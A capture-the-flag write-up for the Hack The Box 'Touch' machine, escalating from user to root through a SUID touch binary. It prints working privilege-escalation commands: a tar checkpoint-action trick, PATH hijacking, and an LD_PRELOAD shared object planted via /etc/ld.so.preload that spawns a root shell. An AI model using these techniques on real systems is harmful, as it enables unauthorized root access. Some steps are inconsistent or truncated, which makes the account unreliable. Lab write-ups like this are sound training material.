








# HTB — Touch Writeup
## Overview

This writeup documents my path on the HTB **Touch** machine, from initial access to root through SUID and dynamic loader abuse.

## Methodology / Steps

Challenge Description:
"Push me, and then just touch me, till I can get my, Satisfaction!"

This hinted at something related to the touch command, likely combined with privilege escalation.

1️⃣ Initial Recon & Enumeration

The Hack the Box touch reavealed an Host IP and Port Address which we can connect with using utility tools like netcat and telnet for network communication.

Nmap scan of the target only revealed one open port which we could connect to

We started with a foothold as the low-privileged user ctf. First, we checked:

SUID binaries:**

find / -perm -4000 2>/dev/null
The key finding:

-rwsr-sr-x 1 root root 97152 Feb 28  2019 /bin/touch

✅ Interesting: /bin/touch has the SUID bit set — it runs as root.

We also explored /usr/bin and /bin to check available binaries for potential exploitation (gzip, tar, zcat, etc.).

2️⃣ Compression Utility & Tar Checkpoint Exploit

We attempted a tar --checkpoint-action exploit, where tar can execute a script after processing files:

Steps:

touch /tmp/--checkpoint=1
touch "/tmp/--checkpoint-action=exec=sh /home/ctf/exploit.sh"
echo '#!/bin/bash' > /home/ctf/exploit.sh
echo '/bin/bash -p' >> /home/ctf/exploit.sh
chmod +x /home/ctf/exploit.sh
tar cf archive.tar *

🔍 Idea: If a cron job or script runs tar as root, it might trigger the exploit.

❌ Result: Nothing happened because no automated tar process was running as root.

3️⃣ PATH Hijacking Attempts

We tried PATH hijacking by creating a fake touch binary and setting the PATH to favor /tmp:

echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/touch
chmod +x /tmp/touch
export PATH=/tmp:$PATH

We hoped a privileged script would unknowingly call touch from our PATH.

❌ Result: No success; nothing called our fake binary.

4️⃣ Direct File Overwrite Tricks

We tried overwriting a root-owned file using:

cat exploit.sh | /bin/touch /tmp/root_shell
Using dd:

dd if=/home/ctf/exploit.sh of=/tmp/root_shell conv=notrunc

❌ Result: Permission denied — expected since SUID binaries don’t give root write access to arbitrary files.

5️⃣ LD\_PRELOAD Attack 

We realized LD\_PRELOAD is a powerful vector.

LD\_PRELOAD allows loading a shared library before others, letting us hijack functions in binaries.
We wrote a malicious shared object that escalates privileges:

#include
#include
#include
#include

void _init() {
    unsetenv("LD_PRELOAD"); // Avoid loops
    setuid(0);
    setgid(0);
    system("/bin/bash -p"); // Root shell
}

We compiled it locally on the machine

gcc -fPIC -shared -o preload.so preload.c -nostartfiles

Copied the output file by first encoding it using base64 and decoding it on local machine utility base64 tool

This was done locally reason for this is there is no gcc compiler on target HTB machine.

Then ran:

Created ld.so.preload with

touch ld.so.preload

Used umask to make it writable : umask 0000

Wrote path to /etc/ld.so.preload: echo /tmp/preload.so > /etc/ld.so.preload 

Triggered SUID binary: touch

🔎 Result:
If the SUID binary honored LD\_PRELOAD (which is rare for SUID binaries and this would escalate to root.)

Result: popped a root shell!

We’re IN the root, Only thing left is now to switch to root and grab the flag.

🚀 Conclusion

By chaining together file permission tricks, SUID binary analysis, and dynamic library preloading, we successfully escalated from ctf to root, highlighting real-world privilege escalation paths.

## Findings

- `/bin/touch` being SUID-root created an unusual but exploitable privilege boundary.
- Conventional privesc checks (tar checkpoint abuse, PATH hijacking) did not trigger due to runtime conditions.
- Dynamic loader manipulation with `ld.so.preload` enabled root shell execution.

## Lessons Learned

- Validate exploit assumptions quickly; many techniques fail due to missing trigger conditions.
- SUID binaries with unsafe loader/file handling can be more dangerous than they appear.
- Strong note-taking during dead ends helps isolate viable escalation paths faster.

## Screenshots

Supporting screenshots are stored in [`assets/`](assets/).
